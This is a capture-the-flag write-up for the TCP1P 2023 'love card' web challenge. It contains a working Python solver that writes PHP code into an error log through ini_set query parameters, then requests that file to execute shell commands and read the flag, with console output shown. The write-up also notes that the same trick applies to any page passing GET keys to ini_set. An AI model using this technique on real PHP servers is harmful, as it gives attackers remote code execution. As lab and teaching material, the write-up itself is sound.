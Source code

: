# love card

## Description

> Make your own love card for your gf <3
>
> <http://ctf.tcp1p.com:9137>
>
> Attachment: dist.zip

## Flag

TCP1P{this_is_not_about_love_this_is_about_RCE<3}

## Solution

index.php

```php
foreach ($_GET as $key => $value) {
  ini_set($key, $value);
}
```

It is possible to write a content to a file by using [log_errors](https://www.php.net/manual/en/errorfunc.configuration.php#ini.log-errors) and [error_log](https://www.php.net/manual/en/errorfunc.configuration.php#ini.error-log).

This solution takes a roundabout approach.
When I pass an array in the query string, I get the following error:

```console
root@kali:~/ctf/TCP1PCTF_2023/web/love_card/dist/src# curl 'http://localhost:9137/?log_errors=on&error_log=tmp.php&12345678901234567890[]=b'
<br />
<b>Fatal error</b>:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:6
Stack trace:
#0 /var/www/html/index.php(6): ini_set('123456789012345...', Array)
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>6</b><br />
```

So adjust the parameters so that the executable PHP code is placed in the array name (in the above `123456789012345`).

solver.py

```python
from urllib.parse import quote
import requests
import uuid

# BASE_URL = "http://localhost:9137"
BASE_URL = "http://ctf.tcp1p.com:9137"

payloads = """
<?=1;/*
*/$a="cat"/*
*/;/*
*/$a="$a\t"/*
*/;/*
*/$a="$a/f*"/*
*/;/*
*/system($a)/*
*/;/*
*/?>
"""

payloads = payloads.split("\n")

# check length
for payload in payloads:
    try:
        assert len(payload) <= 15
    except AssertionError:
        print("length error")
        print(payload)
        exit(0)

filename = f"{str(uuid.uuid4())}.php"

for payload in payloads:
    resp = requests.get(
        f"{BASE_URL}?log_errors=1&error_log={filename}&{quote(payload)}[]=1"
    )

resp = requests.get(f"{BASE_URL}/{filename}")
print(resp.text)
```

```console
root@kali:~/ctf/TCP1PCTF_2023/web/love_card# python3 solver.py
[16-Oct-2023 05:09:25 UTC] PHP Warning:  Undefined array key "name" in /var/www/html/index.php on line 13
[16-Oct-2023 05:09:25 UTC] PHP Deprecated:  preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 13
[16-Oct-2023 05:09:25 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:6
Stack trace:
#0 /var/www/html/index.php(6): ini_set('1TCP1P{this_is_not_about_love_this_is_about_RCE<3}', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 6
[16-Oct-2023 05:09:27 UTC] PHP Warning:  Undefined array key "name" in /var/www/html/index.php on line 13
[16-Oct-2023 05:09:27 UTC] PHP Deprecated:  preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 13
```

<details><summary>Test results on localhost</summary>

console output:

```console
root@kali:~/ctf/TCP1PCTF_2023/web/love_card# python3 solver.py
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('1TCP1P{fake_flag}', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
```

randomname.php

```php
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('<?=1;/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/$a="cat"/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/;/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/$a="$a\t"/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/;/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/$a="$a/f*"/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/;/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/system($a)/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/;/*', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
[16-Oct-2023 05:12:15 UTC] PHP Fatal error:  Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:4
Stack trace:
#0 /var/www/html/index.php(4): ini_set('*/?>', Array)
#1 {main}
  thrown in /var/www/html/index.php on line 4
```

</details>

If I had to say, the strength of this solution is that it can be used even when there is no functionality to output `$_GET['name']` such as:

```php
if (preg_match('/<|>|\?|\*|\||&|;|\'|="/', $_GET["name"])) {
  error_log(
    "Warning: User tried to access with name: " .
      $_GET["name"] .
      ", Only alphanumeric allowed!"
  );
  die("Nope");
}
```

For example, even if index.php is only the following, it is possible to occur RCE.

```php
<?php

foreach ($_GET as $key => $value) {
  ini_set($key, $value);
}
```
